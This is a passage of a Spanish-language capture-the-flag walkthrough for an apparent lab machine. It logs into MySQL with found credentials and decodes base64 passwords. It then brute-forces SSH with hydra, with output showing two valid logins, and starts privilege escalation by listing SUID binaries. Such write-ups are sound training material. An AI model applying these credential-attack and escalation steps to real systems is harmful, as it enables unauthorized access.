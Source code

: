 Usuario: qdpmadmin
Contraseña: UcVQCMQk2STVeS6J

Con el siguiente comando accederemos a la base de datos

```
$ mysql -uqdpmadmin -h <IP> -pUcVQCMQk2STVeS6J
```

Dentro encontraremos una base de datos llamada **staff** la cuál tiene tres tablas (department, login, user), ahí encontraremos las credenciales codificadas en **base64**

Una vez tengamos una lista con los usuarios y las contraseñas usaremos la herramienta **hydra** para hacer fuerza bruta por SSH a la máquina víctima.

```
$ for password in c3VSSkFkR3dMcDhkeTNyRg== N1p3VjRxdGc0MmNtVVhHWA== WDdNUWtQM1cyOWZld0hkQw== REpjZVZ5OThXMjhZN3dMZw== Y3FObkJXQ0J5UzJEdUpTeQ==; do echo $password | base64 -d; echo; done | tee passwords
```

```
$ hydra -L users -P passwords ssh://192.168.28.121

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-11 17:51:38
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:5/p:5), ~2 tries per task
[DATA] attacking ssh://192.168.28.121:22/
[22][ssh] host: 192.168.28.121   login: travis   password: DJceVy98W28Y7wLg
[22][ssh] host: 192.168.28.121   login: dexter   password: 7ZwV4qtg42cmUXGX
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-11 17:51:44
```

Ha encontrado nos usuarios los cuáles podemos acceder mediante SSH, **travis** y **dexter**

## Escalada de privilegios

Cuando accedemos con el usuario **dexter**, encontramos esta nota:

```
dexter@debian:~$ cat note.txt 
It seems to me that there is a weakness while accessing the system.
As far as I know, the contents of executable files are partially viewable.
I need to find out if there is a vulnerability or not.
dexter@debian:~$ 
```

Mediante el comando **find** vamos a hacer una búsqueda para ver si hay ejecutables vulnerables en el sistema:

```
dexter@debian:~$ find / -perm -4000 2>/dev/null
/opt/get_access
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/mount
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
dexter@debian:~$
```
